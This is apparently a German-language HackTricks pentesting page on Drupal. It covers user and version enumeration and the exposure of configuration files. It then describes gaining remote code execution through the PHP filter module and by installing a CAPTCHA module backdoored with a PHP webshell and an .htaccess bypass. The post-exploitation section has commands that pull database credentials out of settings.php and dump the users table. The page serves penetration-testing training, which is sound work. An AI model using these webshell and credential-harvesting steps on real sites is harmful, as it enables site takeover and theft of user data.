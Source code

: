 # Drupal

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Discovery

* Überprüfen Sie **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Knoten**: Drupal **indexiert seinen Inhalt mithilfe von Knoten**. Ein Knoten kann **alles enthalten**, wie z.B. einen Blogbeitrag, eine Umfrage, einen Artikel usw. Die Seiten-URIs haben in der Regel die Form `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Enumeration

Drupal unterstützt standardmäßig **drei Arten von Benutzern**:

1. **`Administrator`**: Dieser Benutzer hat die vollständige Kontrolle über die Drupal-Website.
2. **`Authentifizierter Benutzer`**: Diese Benutzer können sich auf der Website anmelden und Operationen wie das Hinzufügen und Bearbeiten von Artikeln basierend auf ihren Berechtigungen durchführen.
3. **`Anonym`**: Alle Website-Besucher werden als anonym bezeichnet. Standardmäßig dürfen diese Benutzer nur Beiträge lesen.

### Version

* Überprüfen Sie `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Neuere Installationen von Drupal blockieren standardmäßig den Zugriff auf die Dateien `CHANGELOG.txt` und `README.txt`.
{% endhint %}

### Benutzername Aufzählung

#### Registrieren

Unter _/user/register_ versuchen Sie einfach, einen Benutzernamen zu erstellen, und wenn der Name bereits vergeben ist, wird dies angezeigt:

![](<../../.gitbook/assets/image (325).png>)

#### Neues Passwort anfordern

Wenn Sie ein neues Passwort für einen vorhandenen Benutzernamen anfordern:

![](<../../.gitbook/assets/image (900).png>)

Wenn Sie ein neues Passwort für einen nicht vorhandenen Benutzernamen anfordern:

![](<../../.gitbook/assets/image (304).png>)

### Anzahl der Benutzer abrufen

Durch den Zugriff auf _/user/\<number>_ können Sie die Anzahl der vorhandenen Benutzer sehen, in diesem Fall sind es 2, da _/users/3_ einen Fehler "nicht gefunden" zurückgibt:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Versteckte Seiten

**Fuzz `/node/$`, wobei `$` eine Zahl ist** (von 1 bis 500 zum Beispiel).\
Sie könnten **versteckte Seiten** (Test, Entwicklung) finden, die nicht von den Suchmaschinen referenziert werden.

#### Installierte Module Informationen
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Automatisch
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Mit PHP-Filter-Modul

{% hint style="warning" %}
In älteren Versionen von Drupal **(vor Version 8)** war es möglich, sich als Administrator anzumelden und das `PHP-Filter`-Modul zu aktivieren, das es ermöglicht, "Eingebetteten PHP-Code/Snippets auszuwerten".
{% endhint %}

Sie benötigen das **Plugin PHP, das installiert sein muss** (überprüfen Sie dies, indem Sie auf _/modules/php_ zugreifen und wenn es eine **403** zurückgibt, dann **existiert es**, wenn **nicht gefunden**, dann ist das **Plugin PHP nicht installiert**)

Gehen Sie zu _Module_ -> (**Überprüfen Sie**) _PHP-Filter_ -> _Konfiguration speichern_

![](<../../.gitbook/assets/image (247) (1).png>)

Klicken Sie dann auf _Inhalt hinzufügen_ -> Wählen Sie _Grundlegende Seite_ oder _Artikel_ -> Schreiben Sie _PHP-Shellcode im Body_ -> Wählen Sie _PHP-Code_ im _Textformat_ -> Wählen Sie _Vorschau_

![](<../../.gitbook/assets/image (335).png>)

Zugriff auf den neu erstellten Knoten erhalten:
```bash
curl http://drupal-site.local/node/3
```
### Installieren des PHP-Filtermoduls

Ab Version **8 und höher** wird das [**PHP-Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **Modul nicht mehr standardmäßig installiert**. Um diese Funktionalität zu nutzen, müssen wir **das Modul selbst installieren**.

1. Laden Sie die neueste Version des Moduls von der Drupal-Website herunter.
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. Nach dem Download gehen Sie zu **`Verwaltung`** > **`Berichte`** > **`Verfügbare Updates`**.
4. Klicken Sie auf **`Durchsuchen`**, wählen Sie die Datei aus dem Verzeichnis aus, in das wir sie heruntergeladen haben, und klicken Sie dann auf **`Installieren`**.
5. Nachdem das Modul installiert ist, können wir auf **`Inhalt`** klicken und **eine neue Grundseite erstellen**, ähnlich wie im Beispiel für Drupal 7. Stellen Sie erneut sicher, dass Sie **`PHP-Code` aus dem Dropdown-Menü `Textformat` auswählen**.

### Hintertürmodul

Ein Hintertürmodul kann erstellt werden, indem **eine Shell zu einem vorhandenen Modul hinzugefügt wird**. Module können auf der Website drupal.org gefunden werden. Wählen wir ein Modul wie [CAPTCHA](https://www.drupal.org/project/captcha) aus. Scrollen Sie nach unten und kopieren Sie den Link für das tar.gz [Archiv](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Laden Sie das Archiv herunter und extrahieren Sie dessen Inhalt.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Erstellen Sie eine **PHP-Webshell** mit dem Inhalt:
```php
<?php
system($_GET["cmd"]);
?>
```
* Als nächstes müssen wir eine **`.htaccess`**-Datei erstellen, um uns Zugriff auf den Ordner zu verschaffen. Dies ist notwendig, da Drupal den direkten Zugriff auf den **`/modules`**-Ordner verweigert.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Die oben genannte Konfiguration wird Regeln für den / Ordner anwenden, wenn wir eine Datei in /modules anfordern. Kopieren Sie beide Dateien in den captcha-Ordner und erstellen Sie ein Archiv.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Angenommen, wir haben **administrativen Zugriff** auf die Website, klicken Sie auf **`Verwalten`** und dann auf **`Erweitern`** in der Seitenleiste. Klicken Sie anschließend auf die Schaltfläche **`+ Neues Modul installieren`**, und Sie gelangen zur Installationsseite, z. B. `http://drupal-site.local/admin/modules/install`. Navigieren Sie zum manipulierten Captcha-Archiv und klicken Sie auf **`Installieren`**.
* Nach erfolgreicher Installation navigieren Sie zu **`/modules/captcha/shell.php`**, um Befehle auszuführen.

## Post-Exploitation

### settings.php lesen
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Benutzer aus der Datenbank abrufen
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Referenzen

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

